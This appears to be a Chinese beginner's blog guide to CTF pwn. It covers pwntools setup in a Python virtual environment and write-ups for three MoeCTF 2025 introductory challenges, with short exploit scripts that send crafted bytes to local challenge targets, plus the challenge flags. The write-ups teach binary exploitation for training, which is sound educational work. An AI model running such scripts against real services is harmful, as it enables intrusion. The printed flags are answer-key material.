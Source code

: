 ```yaml
---
title: 这是一个Pwn的入门
---
```

Pwn 入门指北,Pwn 环境配置

<!--more-->
# Pwn的标准流程:
 + 1. checkesc 检查保护机制
 + 2. patchslf 替换libc, ld ...[option]
 + 3. 使用IDA等反汇编反编译挖掘漏洞
 + 4. 用GDB + pwntools 执行确认漏洞
 + 5. 使用Python + pwntools 编写利用脚本

#### note: 
 - libc & ld 分别是 Linux C 标准库和动态链接器。我们⽤ C 语⾔编写程序时经常调⽤⼀
些“从天⽽降”的函数（
printf、
scanf...），它们其实就在 libc（通常为 GNU 提供的 
glibc）⾥，ld 则搭起你的程序和这些函数间的“桥梁”。（详⻅下⽂“编译与汇编”）
Linux 系统中⼏乎所有软件都需要⽤到它们！



# 配置pwntools
## 使用环境为: WSL2-Ubuntu
由于在Liunx下是pip全局安装，会污染系统python环境,所以不被允许，故需要创建虚拟环境

#### 创建虚拟环境和pwntool

```bash
# 如果没有安装对应的软件包
sudo apt update
sudo apt install python3-full python3-venv

# 创建一个用于pwn的虚拟环境
python3 -m venv ~/pwn-venv

# 激活虚拟环境
source ~/PATH/.../pwn-venv/bin/activate
. ~/PATH/.../pwn-venv/bin/activate        # 另一种写法

# 看到命令行将会存在(pwn-venv)，表示已经在虚拟环境中

# 安装pwntools

pip install pwntools
```
##### 设置快捷方式， 方便以后使用

```bash
# 将以下内容添加到 ~/.bashrc 文件末尾
echo 'alias pwn-env="source ~/PATH.../pwn-venv/bin/activate"' >> ~/.bashrc

# 重新加载配置
source ~/.bashrc

```

在之后的使用只需要运行
```bash
pwn-env
```
就可以进入虚拟环境

# 测试题目
## MoeCTF 题目 [0 二进制漏洞审计入门指北](https://ctf.xidian.edu.cn/training/22?challenge=855&tab=terminal)
### 标签: MeoCtf2025 Pwn
在启动题目给的靶机地址后，创建以下python脚本

```python
from pwn import *                                    # 导入 pwntools。
context(arch='amd64', os='linux', log_level='debug') # 一些基本的配置。
context.log_level = 'debug'
# 有时我们需要在本地调试运行程序，需要配置 context.terminal。详见入门指北。

# io = process('./pwn')             # 在本地运行程序。
# gdb.attach(io)                    # 启动 GDB
io = connect("127.0.0.1", 42065)    # 与在线环境交互, 这里连接的是对应靶机地址和端口
io.sendline(b'114511')             
payload  = p32(0xdeadbeef)          # 4字节小端序
                                    
payload += b'shuijiangui'           # strcmp
io.sendafter(b'password.', payload) # 发送！通过所有的检查。
io.interactive()                    # 手动接收 flag。
```

运行该脚本即可获取flag ： moectf{tH3_BegINNiNG-0F-ForM4t2c964a9fe}


## MoeCTF 题目 [1 ez_u64](https://ctf.xidian.edu.cn/training/22?challenge=872)
本题目要求 使用pwntools中的u64,p64,u32,p32将特定大小的字节流与整数相互转换。

### 概念：小端序&大端序
端序（**Endianness**）指的是字节在内存中的存储顺序，主要分为小端序和大端序两种。
 + 小端序: 地位字节存储在低位地址 特点：
   - 最低有效字节在最前面
   - Intel x86/x64 架构使用小端序
   - 目前主流架构
 + 大端序 高位字节存储在低地址 特点:
   - 高位字节存储在低地址
   - 网络字节序通常使用大端序



小端序：像写数字一样，从右往左（低位在前）
```python
# 数字: 12345678
# 小端序: 78 56 34 12 （从个位开始）
```

大端序：像读数字一样，从左往右（高位在前）
```python
# 数字: 12345678  
# 大端序: 12 34 56 78 （从高位开始）
```

而在pwntools中，p64(), p32(), u64(), u32() 是用于处理字节序和数据打包/解包的重要函数。
功能说明:
  + p64/p32: 将整数打包为64位/32位小端序字节串
  + u64/u32: 将64位/32位小端序字节串解包为整数

所以编写攻击脚本
```python

#!/usr/bin/env python3
from pwn import * # type: ignore

context(os='linux', arch='amd64', log_level='debug')

# 替换为实际的远程地址和端口
p = remote('127.0.0.1', 34887)  # 例如：remote('127.0.0.1', 9999)

def itob(x):
    return str(x).encode()

p.recvuntil('hint.')       # 持续接受数据直到接收到字符串hint.
code = p.recv(8)           # 接受关键数据 精确接受八个字节的数据
ans = u64(code)            # 小端序转换
log.debug("Received value: {}".format(ans)) # 在调试模式下打印接收到的整数值
p.sendline(itob(ans))        # 将发送数据并在末尾添加换行符\n 

p.interactive()              # 获得shell 权限

```

然后成功进入交互模式
```bash
cat flag
```

获得: moectf{U53ful_THIng5-1N-PwNTOO1S2440fd8e}

#### note 字符串 vs 字节序列
 + 字符串： 人类可读文本
 + 字节序列： 计算机存储的原始二进制序列


## Moe 题目 [1 find it](https://ctf.xidian.edu.cn/training/22?challenge=919)
### 标签: MoeCTF2025 Pwn
这是一道Pwn题目，要求我们理解什么是fd(**文件描述符**)
#### fd 和 PID的区别
 + PID是进程的全局标识，用于在系统中唯一识别一个进程
 + fd是进程内部的资源句柄，用于访问文件、网络等资源
 + 不同进程可以有相同的fd值，但指向不同的实际资源
 + PID在进程生命周期内不变，fd随文件打开关闭动态变化

题目开头问题:
```TEXT
I've hidden the fd of stdout. Can you find it?
```
根据Liunx程序的创建机制,初始会将 **stdin** **stdout** **stderr** 分别设为 0 1 2
所以新的stdout 为 **fd 3** 此时 **fd1** 关闭 输入 ./flag 此时由于**fd1**关闭为空所以分配
是输入1即可获得flag ：moectf{fInd_tH3_H1DDen_fd40cbba45f57}

#### note: Liunx 分配fd的时候总是会分配最小的未分配数

